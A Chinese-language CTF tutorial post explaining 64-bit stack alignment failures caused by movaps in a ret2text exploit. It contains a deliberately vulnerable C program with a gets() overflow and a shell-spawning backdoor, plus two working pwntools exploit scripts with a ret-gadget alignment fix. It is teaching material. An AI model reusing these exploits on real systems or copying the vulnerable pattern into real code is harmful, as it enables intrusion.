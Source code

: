 # 栈对齐

## 前言

太菜了QWQ，困惑了很久(主要是在脚本中不知道该怎么进行gdb调试)，今天下午研究了一下，造成最后攻击失败的结果应该是`movaps`指令搞的鬼，经过测试Ubuntu20里有这个问题，Ubuntu16没有。`movaps`指令要求其目的操作数必须是16的倍数，也就是说其操作数的数值的16进制数的**最后一位**必须为0，这里看一个例子更容易理解§(*￣▽￣*)§

## 环境、源码编译

**Ubuntu20.04**

> gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
>
> ldd (Ubuntu GLIBC 2.31-0ubuntu9.9) 2.31
>
> python3编写exp.py 使用pwntools库
>
> tmux
>
> zsh(oh-my-zsh)
>
> pwndbg、pwngdb
>
> ......

附:在终端下使用的是环境是tmux，直接在terminal输入tmux即可进入，想要使鼠标上下滑动查看和选择区间可以在主目录下的`.tmux.conf`(没有就新建一个)文件里添加`set -g mouse on`

**源码**

test.c

```c
#include<stdio.h>
#include<string.h>

void heiheihei()
{
	puts("Congratulations on getting the shell");
	puts("Author: vi0let ----a rookie in the team");
	system("/bin/sh");
}

int init() 
{
	setbuf(stdin,0);
	setbuf(stdout,0);
	setbuf(stderr,0);
}

void backdoor()
{
	puts("You little smart guy, not here, still have to look for oh");
}

void sub_0111101()
{
	char s[120];
	gets(s);
}

int main()
{
	init();
	printf("Hello,welcome to the world of pwn ヾ(≧▽≦*)o\n");
	sub_0111101();
	// heiheihei();
	return 0;
}

//gcc -g -z execstack -fno-stack-protector -no-pie -z lazy test.c -o test
```

最后一行就是编译命令

```bash
gcc -g -z execstack -fno-stack-protector -no-pie -z lazy test.c -o test
```

附:想要偷懒也可以，我把编译好的文件和相关的文件存入了这里:https://github.com/lucky-xiaobai/research_pwn/tree/main/stack/Stack%20alignment

## 利用思路

检查保护(其实编译的时候就已经限制了相关的保护)

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508202924562.png" alt="image-20230508202924562" style="zoom:80%;" />

64位，没有开启保护

扔进ida分析

**main**

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508203401793.png" alt="image-20230508203401793" style="zoom:80%;" />

**sub_0111111101**

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508203428000.png" alt="image-20230508203428000" style="zoom:80%;" />

**heiheihei**(后门函数)

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508203536895.png" alt="image-20230508203536895" style="zoom:80%;" />

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508203622054.png" alt="image-20230508203622054" style="zoom:80%;" />

得到后门函数的地址`0x0000000000401196`

分析结束，其实是一个很简单的`ret2text`类型的程序，由于栈上可执行也可以直接填充`shellcode`，这里就选择前者的方法，修改到后门函数执行就可以了

再找一个`ret`用来为后面的栈对齐做准备

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508204353165.png" alt="image-20230508204353165" style="zoom:80%;" />

这里就选最后一个了:`ret=0x000000000040101a`

## exp

先写一个未栈对齐的exp

**exp**

```python
from pwn import*

context.terminal = ['tmux', 'splitw', '-h']			# use tmux
context(os='linux',arch='amd64',log_level='debug')	# related information and set log_level

# io=remote('127.0.0.1',9999)
io=process('./test')								# 本地测试
elf=ELF('./test')

junk=b'a'*(0x80+8)									# 填充垃圾数据，加8是为了覆盖leave和ret
shellc=asm(shellcraft.sh())							# 这里是利用pwntools库生成64位的shellcode，这次没用到，可以注释掉
backdoor=0x0000000000401196							# 后门函数的地址
main= elf.sym['main']								# main函数的地址，也可以在ida中查找直接填写
ret=0x000000000040101a								# ROPgadget查找

log.info(shellc)									# 打印出库生成的shellc看一下

payload=junk+p64(backdoor)+b'deadbeef'	# Stack alignment	# 构造payload

gdb.attach(io,'b main')								# 使用gdb追踪调试

pause()												# 在发送payload前暂停一下，方便查看调试信息
io.sendline(payload)								# 发送

io.interactive()									# 和终端进行交互
```

可以先把调试的语句注释掉看一下最终是否能成功

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508205403824.png" alt="image-20230508205403824" style="zoom:80%;" />

可以看到结果是失败的，把注释掉的调试语句取消掉注释。

运行调试查看一下

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508205004970.png" alt="image-20230508205004970" style="zoom:80%;" />

左面显示处于暂停状态，选择左面，然后按一下回车，得到如下

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508204850712.png" alt="image-20230508204850712" style="zoom:80%;" />

剩下只需要分析右面的gdb中的信息即可

可以使用`ni`单步分析

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508205827966.png" alt="image-20230508205827966" style="zoom:80%;" />

也可以使用`finish`跳出当前的系统函数

几次后，得到如下的状态，可以看到`sub_01111101`函数执行结束后到后门函数那边去了，接下来为了避免跳出关键函数，使用`ni`单步调试

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508210028290.png" alt="image-20230508210028290" style="zoom:80%;" />

如下，接下来再填入一次`ni`就是报错的地方了，其实这里已经可以看到栈已经不对齐了(`rsp`末尾是8)

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508211555679.png" alt="image-20230508211555679" style="zoom:80%;" />

调试到`movaps`指令时候如下所示，显然，`rsp=0x7fffffffdba8`，所以造成了溢出的失败

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508210350739.png" alt="image-20230508210350739" style="zoom:80%;" />

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508210534588.png" alt="image-20230508210534588" style="zoom:80%;" />

再写一个栈对齐的exp

**exp**

```python
from pwn import*

context.terminal = ['tmux', 'splitw', '-h']
context(os='linux',arch='amd64',log_level='debug')

# io=remote('127.0.0.1',9999)
io=process('./test')
elf=ELF('./test')

junk=b'a'*(0x80+8)
shellc=asm(shellcraft.sh())
backdoor=0x0000000000401196
main= elf.sym['main']
ret=0x000000000040101a

log.info(shellc)

payload=junk+p64(ret)+p64(backdoor)+b'deadbeef'	# Stack alignment

gdb.attach(io,'b main')

pause()
io.sendline(payload)

io.interactive()
```

这里就直接去调试了，调试的过程和上面一模一样

调试结果如下

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508211041861.png" alt="image-20230508211041861" style="zoom:80%;" />

再填入`ni`就可以程序没有跳转到报错的`movaps`那边，而是正常的结束了

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/image-20230508211202682.png" alt="image-20230508211202682" style="zoom:80%;" />

## 总结

检测栈对齐其实就是`movaps`指令造成的，可以填充一个或多个`ret`指令来使栈上的数据对齐。